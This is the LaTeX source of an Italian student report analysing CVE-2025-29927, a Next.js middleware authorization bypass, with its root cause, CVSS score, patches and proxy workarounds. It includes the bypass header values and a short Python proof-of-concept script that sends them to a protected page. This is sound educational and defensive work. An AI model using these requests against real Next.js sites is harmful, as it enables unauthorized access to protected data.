%! TeX program = lualatex

% TODO: Inserisci timeline della vulnerabilità

\documentclass[a4paper,oneside,12pt]{report}
\usepackage[italian]{babel}
\usepackage{hyperref}
\usepackage{hyphenat}
\hyphenation{mate-mati-ca recu-perare}
\usepackage{parskip}
\usepackage{minted}
\usepackage{graphicx}
\usepackage{ragged2e}
\hypersetup{
	colorlinks=true,
	linkcolor=blue,
	filecolor=magenta,
	urlcolor=cyan
}
\urlstyle{same}

\linespread{1.25}

\title{\textbf{CyberSecurity 2024-25} \\ CVE-2025-29927 in \texttt{Next.js}}
\author{Davide Carella \& Luca Ardito}
\date{}

\begin{document}

\maketitle
\tableofcontents
\newpage

\addcontentsline{toc}{chapter}{Introduzione}
\chapter*{Introduzione}
\label{chap:introduzione}
\justifying

Nel contesto dello sviluppo web moderno, la sicurezza delle applicazioni rappresenta una sfida critica e sempre più complessa. I framework frontend e full-stack, come \texttt{Next.js}, forniscono funzionalità avanzate per lo sviluppo rapido di applicazioni web dinamiche, ma allo stesso tempo introducono superfici di attacco potenziali che, se trascurate, possono compromettere l'intera applicazione e i dati degli utenti.

\texttt{Next.js} è un framework open source basato su \texttt{React}, progettato per la realizzazione di applicazioni web ad alte prestazioni. Offre funzionalità come il rendering lato server (SSR), la generazione statica (SSG), il supporto per l'internazionalizzazione, la gestione delle API e il caricamento dinamico dei componenti. È particolarmente apprezzato per la sua semplicità d’uso, la scalabilità e le ottimizzazioni integrate per SEO e performance.

Questo elaborato si concentra sull’analisi di una vulnerabilità recentemente identificata in esso: la \emph{CVE-2025-29927}. Tale vulnerabilità ha avuto un impatto significativo, rendendo possibile, in specifiche condizioni, l’accesso non autorizzato a risorse protette, con gravi implicazioni per la riservatezza e l'integrità dei dati.

L’obiettivo del progetto è duplice: da un lato descrivere dettagliatamente la vulnerabilità, la sua origine e il suo meccanismo di sfruttamento, dall’altro offrire una panoramica delle tecniche di mitigazione adottate dal team di sviluppo di \texttt{Next.js} per correggerla. In particolare, verranno presentati:
\begin{itemize}
  \item una spiegazione tecnica su cosa compromette la vulnerabilità;
  \item l’analisi dell’entry point dell’attacco;
  \item il calcolo del punteggio \emph{CVSS} (Common Vulnerability Scoring System);
  \item un approfondimento sull’origine e sulla causa radice della falla;
  \item due \textit{Proof of Concept} per dimostrarne lo sfruttamento pratico;
  \item le contromisure adottate e possibili \textit{workaround} temporanei.
\end{itemize}

\chapter{Analisi della CVE}
\label{chap:analisi-cve}

\section{Descrizione ufficiale della CVE}
\label{sec:descrizione-ufficiale-cve}

Dal \href{https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-29927}{NIST NVD}:
\begin{quote}
``Next.js is a React framework for building full-stack web applications. Starting in version 1.11.4 and prior to versions 12.3.5, 13.5.9, 14.2.25, and 15.2.3, it is possible to bypass authorization checks within a Next.js application, if the authorization check occurs in middleware. If patching to a safe version is infeasible, it is recommend that you prevent external user requests which contain the x-middleware-subrequest header from reaching your Next.js application. This vulnerability is fixed in 12.3.5, 13.5.9, 14.2.25, and 15.2.3.''
\end{quote}

\section{Cosa compromette?}
\label{sec:cosa-compromette}

La vulnerabilità \emph{CVE-2025-29927} ha un impatto diretto su uno dei tre principi fondamentali della sicurezza informatica, comunemente noti come \emph{triade CIA}: \emph{Confidenzialità}, \emph{Integrità} e \emph{Disponibilità}.

\begin{itemize}
  \item \emph{Confidenzialità}: è il principio maggiormente compromesso da questa vulnerabilità. In presenza di configurazioni specifiche, un attaccante remoto non autenticato può accedere a risorse che dovrebbero essere protette da meccanismi di autenticazione o autorizzazione. Questo può includere pagine private, endpoint API interni o contenuti generati dinamicamente. La conseguenza è la potenziale esposizione di informazioni sensibili, con implicazioni gravi in termini di privacy e sicurezza.
  \item \emph{Integrità}: anche se in modo meno diretto, l’integrità può essere compromessa. Un attaccante che riesce a visualizzare informazioni riservate potrebbe sfruttarle per manipolare il comportamento dell'applicazione in una fase successiva. Ad esempio, accedendo a configurazioni interne o risposte API non destinate all’utente, potrebbe costruire richieste mirate in grado di alterare dati, forzare comportamenti non previsti o eludere meccanismi di controllo lato client. Sebbene la vulnerabilità non consenta di modificare direttamente i dati, può essere un punto di partenza per attacchi più avanzati che impattano l'integrità.
  \item \emph{Disponibilità}: non sono stati rilevati impatti sulla disponibilità dei servizi. La vulnerabilità non introduce vettori di attacco per causare interruzioni o rallentamenti del servizio (DoS), né limita l’accesso alle funzionalità legittime dell’applicazione.
\end{itemize}

In sintesi, la \emph{CVE-2025-29927} compromette principalmente la \emph{confidenzialità} dei dati e, in misura minore e solo in condizioni particolari, anche l’\emph{integrità}. La \emph{disponibilità}, invece, non viene generalmente alterata dall’exploit di questa vulnerabilità.

\section{Dove parte l'attacco?}
\label{sec:dove-parte-attacco}

L'attacco associato alla \emph{CVE-2025-29927} ha origine a livello del \emph{routing} di \texttt{Next.js}, in particolare nella gestione delle richieste da parte del \emph{middleware} applicativo. In alcune configurazioni, il middleware non applica correttamente le restrizioni di accesso previste per determinate route dinamiche o protette. Questo comportamento anomalo consente a un attaccante remoto non autenticato di accedere a contenuti o API destinati a utenti autenticati, semplicemente formulando una richiesta HTTP ben costruita verso l’endpoint vulnerabile.

Il punto d’ingresso principale è quindi una richiesta HTTP inviata verso un percorso protetto che, però, non viene intercettata correttamente dal sistema di protezione. In particolare, la vulnerabilità si manifesta quando l’header \texttt{x-middleware-subrequest} non viene gestito correttamente, oppure viene interpretato in modo non sicuro, causando una bypass del middleware che normalmente dovrebbe bloccare l’accesso non autorizzato.

L’attaccante non ha bisogno di interagire con l’interfaccia utente dell’applicazione: è sufficiente che conosca o intuisca gli endpoint sensibili (ad esempio, \texttt{/dashboard}, \texttt{/admin}, ecc.) e che invii una richiesta manipolata direttamente dal browser, da uno script o tramite uno strumento come \textit{curl} o \textit{Burp Suite}.

La facilità con cui si può identificare e sfruttare il punto d’ingresso rende la vulnerabilità particolarmente pericolosa, soprattutto in ambienti dove le route riservate sono prevedibili o mal configurate.

\section{Come viene calcolato il CVSS?}
\label{sec:come-viene-calcolato-cvss}

La versione utilizzata al momento della pubblicazione della \emph{CVE-2025-29927} è la \emph{CVSS v3.1}, che calcola un punteggio finale compreso tra 0.0 (nessun impatto) e 10.0 (massima gravità), suddiviso in tre gruppi di metriche.

Uno score per la vulnerabilit\`a \`e stato gi\`a calcolato con i seguenti parametri:
\begin{itemize}
  \item \emph{Metriche Base}:
	\begin{itemize}
		\item \texttt{AV:N} -- l'attacco è eseguibile da remoto via rete;
		\item \texttt{AC:L} -- l’exploit non richiede condizioni particolari;
		\item \texttt{PR:N}: -- l’attaccante non deve essere autenticato;
		\item \texttt{UI:N} -- l’attacco non richiede interazione da parte dell’utente;
		\item \texttt{S:U} -- l’impatto resta confinato nel contesto dell’applicazione vulnerabile;
		\item \texttt{C:H}: -- possibile accesso a dati sensibili;
		\item \texttt{I:N}: possibile modifica di dati sensibili;
		\item \texttt{A:N}: -- non si verificano impatti sulla disponibilit\`a.
	\end{itemize}
  \item \emph{Metriche Temporali e Ambientali}: non disponibili.
\end{itemize}

Sulla base di queste metriche, la \emph{CVE-2025-29927} riceve un punteggio base \emph{CVSS 3.1} di 9.1.

\chapter{Analisi della causa radice}
\label{chap:analisi-causa-radice}

\section{Origine della vulnerabilit\`a}
\label{sec:origine-vulnerabilita}

\texttt{Next.js}, essendo un framework completo, ha un \emph{middleware} che consente di fare:
\begin{itemize}
	\item \textit{path rewriting} (riscrittura del percorso);
	\item \textit{URL redirecting} (reindirizzamento dell'URL);
	\item aggiunta di \textit{headers} alla risposta;
	\item e, in maniera molto pi\`u rilevante, \textit{authentication} e \textit{authorization}.
\end{itemize}
Ad esempio, \`e possibile proteggere una route con un middleware che verifica se l'utente \`e autenticato e autorizzato ad accedere a quella risorsa. Tuttavia, in alcune configurazioni, il middleware non applica correttamente le restrizioni di accesso previste per determinate route dinamiche o protette.

Il codice vulnerabilie si trova all'interno del file \texttt{packages/next/server/next-server.ts} in particolare nella funzione \texttt{runMiddleware}:
\begin{figure}[H]
	\centering
\begin{minted}[breaklines,frame=lines,linenos,firstnumber=686,fontsize=\scriptsize]{javascript}
const subreq = params.request.headers[`x-middleware-subrequest`]
const subrequests = typeof subreq === 'string' ? subreq.split(':') : []
const allHeaders = new Headers()
let result: FetchEventResult | null = null

for (const middleware of this.middleware || []) {
  if (middleware.match(params.parsedUrl.pathname)) {
    if (!(await this.hasMiddleware(middleware.page, middleware.ssr))) {
      console.warn(`The Edge Function for ${middleware.page} was not found`)
      continue
    }

    await this.ensureMiddleware(middleware.page, middleware.ssr)

    const middlewareInfo = getMiddlewareInfo({
      dev: this.renderOpts.dev,
      distDir: this.distDir,
      page: middleware.page,
      serverless: this._isLikeServerless,
    })

    if (subrequests.includes(middlewareInfo.name)) {
      result = {
        response: NextResponse.next(),
        waitUntil: Promise.resolve(),
      }
      continue
    }
\end{minted}
	\caption{Codice vulnerabile in \texttt{Next.js} v12.0.7}
	\label{fig:nextjs-vulnerable-code-v12.0.7}
\end{figure}

Com'\`e possibile notare nelle linee 686-687 si estrae il contenuto dell'header \texttt{x-middleware-subrequest} e lo si tratta come una lista di stringhe separate da dei due punti.

Sucessivamente, nelle linee 707-713, si controlla se questa lista contiene il valore della variabile \texttt{middlewareInfo.name}. Se questo \`e vero, il middleware viene completamente ignorato e la richiesta viene inoltrata alla destinazione senza alcun controllo.

Il valore di \texttt{middlwareInfo.name} si pu\`o facilmente indovinare in quanto \`e l'unico percorso in cui il middleware si trova ed \`e quindi composto dal nome della directory dove si trova il middleware e il nome del file. Nella versione 12 di \texttt{Next.js} l'unica route possibile era quella di \texttt{pages} e quindi il middleware si deve trovare l\`i dentro. Per cui l'unico valore possibile per quella versione era:
\begin{center}
	\scriptsize
	\texttt{x-middleware-subrequest: pages/\_middleware}
\end{center}

Dalle versioni successive, il file del middleware non deve pi\`u trovarsi nella route \texttt{pages} e, inoltre, il file non si chiama pi\`u \texttt{\_middleware} ma viene rimosso il trattino basso. Quindi l'header diventa:
\begin{center}
	\scriptsize
	\texttt{x-middleware-subrequest: middleware}
\end{center}

Inoltre, \`e possibile che esso si trovi nella cartella \texttt{src}. Quindi un'altra possibilit\`a \`e:
\begin{center}
	\scriptsize
	\texttt{x-middleware-subrequest: src/middleware}
\end{center}

Nelle versioni pi\`u recenti di \texttt{Next.js} la logica \`e cambiata leggermente. Il file vulnerabile \`e \texttt{packages/next/src/server/web/sandbox/sandbox.ts}:
\begin{figure}[H]
	\centering
\begin{minted}[breaklines,frame=lines,linenos,firstnumber=94,fontsize=\scriptsize]{javascript}
export const run = withTaggedErrors(async function runWithTaggedErrors(params) {
  const runtime = await getRuntimeContext(params)
  const subreq = params.request.headers[`x-middleware-subrequest`]
  const subrequests = typeof subreq === 'string' ? subreq.split(':') : []

  const MAX_RECURSION_DEPTH = 5
  const depth = subrequests.reduce(
    (acc, curr) => (curr === params.name ? acc + 1 : acc),
    0
  )

  if (depth >= MAX_RECURSION_DEPTH) {
    return {
      waitUntil: Promise.resolve(),
      response: new runtime.context.Response(null, {
        headers: {
          'x-middleware-next': '1',
        },
      }),
    }
  }
\end{minted}
	\caption{Codice vulnerabile in \texttt{Next.js} v15.1.7}
	\label{fig:nextjs-vulnerable-code-v15.1.7}
\end{figure}
Nelle linee 96-97 l'header viene elaborato come prima ma la condizione \`e diversa: il valore della variabile \texttt{depth} deve essere maggiore di \raggedright\texttt{MAX\_RECURSION\_DEPTH} (ovvero 5). La variabile \texttt{depth} viene calcolata contando il numero di valori nella lista uguali a \texttt{params.name} cio\`e sempre il percorso del middleware. Quindi l'header diventer\`a:
\begin{center}
	\scriptsize
	\texttt{x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware}
\end{center}

\chapter{Exploitation}
\label{chap:exploitation}

L'attacco \`e molto semplice e richiede d'inviare una richiesta HTTP ad una pagina protetta dal middleware impostando l'header \texttt{x-middleware-subrequest} ad uno dei valori vulnerabili descritti nel capitolo precedente.

\section{\textit{Proof of Concept} (PoC) in Python}
\label{sec:poc-python}

\begin{minted}[breaklines,frame=lines,linenos,fontsize=\scriptsize]{python}
import requests, sys

protected_page = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000/dashboard"

response = requests.get(protected_page, headers={
    'X-Middleware-Subrequest': 'middleware'
}, allow_redirects=False)

# Do stuff with the reponse
\end{minted}

Il PoC fornito pu\`o essere eseguito con il comando:
\begin{center}
	\scriptsize
	\texttt{python3 exploit.py [pagina\_protetta]}
\end{center}
ed eseguir\`a una richiesta alla pagina protetta fornita come argomento usando l'header vulnerabile.

\section{\textit{Proof of Concept} (PoC) in Burp Suite}
\label{sec:poc-burp-suite}

\`E possibile anche usare \emph{Burp Suite} per eseguire l'exploit inserendo manualmente l'header nella richiesta.

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/burpsuite_exploit_redirect.png}
	\caption{Richiesta senza header vulnerabile in Burp Suite}
	\label{fig:burpsuite-exploit-redirect}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/burpsuite_exploit_ok.png}
	\caption{Richiesta con header vulnerabile in Burp Suite}
	\label{fig:burpsuite-exploit-ok}
\end{figure}

\chapter{Fixes e mitigazione}
\label{chap:fixes-mitigazione}

\section{Aggiornamento del framework}
\label{sec:aggiornamento-framework}

La vulnerabilit\`a \`e stata patchata nelle seguenti versioni:
\begin{itemize}
	\item per \texttt{Next.js} 15.x: in 15.2.3;
	\item per \texttt{Next.js} 14.x: in 14.2.25;
	\item per \texttt{Next.js} 13.x: in 13.5.9;
	\item per \texttt{Next.js} 12.x: in 12.3.5;
	\item per \texttt{Next.js} 11.x: bisogna usare un \textit{workaround}.
\end{itemize}

La patch per la vulnerabilit\`a \`e la seguente ed \`e distribuita in tre file:
\begin{enumerate}
	\item \texttt{packages/next/src/server/lib/router-server.ts}
	\item \texttt{packages/next/src/server/lib/server-ipc/utils.ts};
	\item \texttt{packages/next/src/server/web/sandbox/context.ts}.
\end{enumerate}

\begin{figure}[H]
	\centering
	\begin{minted}[breaklines,frame=lines,linenos,firstnumber=169,fontsize=\scriptsize]{javascript}
const randomBytes = new Uint8Array(8)
crypto.getRandomValues(randomBytes)
const middlewareSubrequestId = Buffer.from(randomBytes).toString('hex')
;(globalThis as any)[Symbol.for('@next/middleware-subrequest-id')] = middlewareSubrequestId
	\end{minted}
	\caption{Modifica nel primo file citato sopra}
	\label{fig:patch-file-1}
\end{figure}
Questa modifica si assicura che ogni volta che il server viene inizializzato si generi un identificatore univoco (\texttt{x-middleware-subrequest-id}) accessibile globalmente.

\begin{figure}[H]
	\centering
	\begin{minted}[breaklines,frame=lines,linenos,firstnumber=61,fontsize=\scriptsize]{javascript}
// If this request didn't origin from this session we filter
// out the "x-middleware-subrequest" header so we don't skip
// middleware incorrectly
if (
  header === 'x-middleware-subrequest' &&
  headers['x-middleware-subrequest-id'] !==
    (globalThis as any)[Symbol.for('@next/middleware-subrequest-id')]
) {
  delete headers['x-middleware-subrequest']
}
	\end{minted}
	\caption{Modifica nel secondo file citato sopra}
	\label{fig:patch-file-2}
\end{figure}
Questa modifica si assicura che ogni volta che si incontra l'header \texttt{x-middleware-subrequest} si controlli se l'header \texttt{x-middleware-subrequest-id} \`e uguale a quello generato in precedenza. Se non lo \`e, allora l'header vulnerabile viene rimosso.

\begin{figure}[H]
	\centering
	\begin{minted}[breaklines,frame=lines,linenos,firstnumber=376,fontsize=\scriptsize]{javascript}
init.headers.set(
  'x-middleware-subrequest-id',
  (globalThis as any)[Symbol.for('@next/middleware-subrequest-id')]
)
	\end{minted}
	\caption{Modifica nel terzo file citato sopra}
	\label{fig:patch-file-3}
\end{figure}
Questa modifica imposta l'header \texttt{x-middleware-subrequest-id} con il valore generato in precedenza in modo tale che il middleware possa tracciare, per scopi di debugging, la subrequest attuale.

\section{\textit{Workaround} momentaneo}
\label{sec:workaround-momentaneo}

Nelle versioni v11.x di \texttt{Next.js} non \`e presente un fix e quindi si deve usare un \textit{workaround} se non \`e possibile aggiornarlo alla versione pi\`u recente. Il workaround consiste nell'usare un proxy che rimuova l'header \texttt{x-middleware-subrequest} dalle richieste in ingresso. Questo pu\`o essere fatto con un server \texttt{nginx} o \texttt{Apache}.

\begin{figure}[H]
	\centering
	\begin{minted}[breaklines,frame=lines,linenos,firstnumber=1,fontsize=\scriptsize]{nginx}
proxy_set_header x-middleware-subrequest "";
	\end{minted}
	\caption{Configurazione di \texttt{nginx} per rimuovere l'header}
	\label{fig:nginx-workaround}
\end{figure}

\begin{figure}[H]
	\centering
	\begin{minted}[breaklines,frame=lines,linenos,firstnumber=1,fontsize=\scriptsize]{apache}
RequestHeader unset x-middleware-subrequest
	\end{minted}
	\caption{Configurazione di \texttt{Apache} per rimuovere l'header}
	\label{fig:apache-workaround}
\end{figure}

\addcontentsline{toc}{chapter}{Conclusioni}
\chapter*{Conclusioni}
\label{chap:conclusioni}
\justifying

In questo documento è stata analizzata in dettaglio la vulnerabilità CVE-2025-29927 che ha interessato \texttt{Next.js}, uno dei framework più diffusi per lo sviluppo di applicazioni web moderne. Attraverso l’analisi, la ricostruzione dell’origine del problema e la dimostrazione dell’exploit, è emerso chiaramente come anche i framework più maturi e mantenuti possano contenere errori di progettazione o implementazione con gravi ripercussioni sulla sicurezza.

La vulnerabilità esaminata compromette in modo diretto la \emph{confidenzialità} dei dati e può, in alcuni casi, avere impatti indiretti sull’\emph{integrità} dell’applicazione. È stata identificata una falla nella logica di accesso alle risorse che, in presenza di parametri specifici, permette a un attaccante remoto non autenticato di accedere a contenuti protetti.

È stato inoltre approfondito il punteggio assegnato alla vulnerabilit\`a e il suo calcolo, utile per quantificare la gravità della vulnerabilità.

La scrittura di due PoC, uno in Python e uno in \textit{Burp Suite}, ha dimostrato l’effettiva possibilità di sfruttare la vulnerabilit\`a in un contesto reale.

In conclusione, l’analisi della CVE-2025-29927 rappresenta un chiaro esempio di come la sicurezza non sia un processo dinamico e imprescindibile del ciclo di vita del software. Comprendere a fondo le cause e le conseguenze di una vulnerabilità non solo aiuta a proteggere i propri sistemi, ma contribuisce a diffondere una cultura della \emph{sicurezza proattiva}, essenziale nel panorama tecnologico odierno.

\addcontentsline{toc}{chapter}{Riferimenti}
\chapter*{Riferimenti}
\label{chap:references}

\begin{enumerate}
	\item \href{https://nvd.nist.gov/vuln/detail/CVE-2025-29927}{CVE-2025-29927}

	Dettaglio ufficiale della vulnerabilità CVE-2025-29927.
	\item \href{https://vercel.com/blog/postmortem-on-next-js-middleware-bypass}{Postmortem on Next.js Middleware bypass}

	Articolo di Vercel che descrive la vulnerabilità e le contromisure adottate.
	\item \href{https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware}{Next.js and the corrupt middleware: the authorizing artifact}

	Articolo di \href{https://x.com/zhero___}{zhero}, uno dei due ricercatori in merito, sulla vulnerabilità CVE-2025-29927.
	\item \href{https://www.picussecurity.com/resource/blog/cve-2025-29927-nextjs-middleware-bypass-vulnerability}{CVE-2025-29927: Next.js Middleware Bypass Vulnerability Explained}

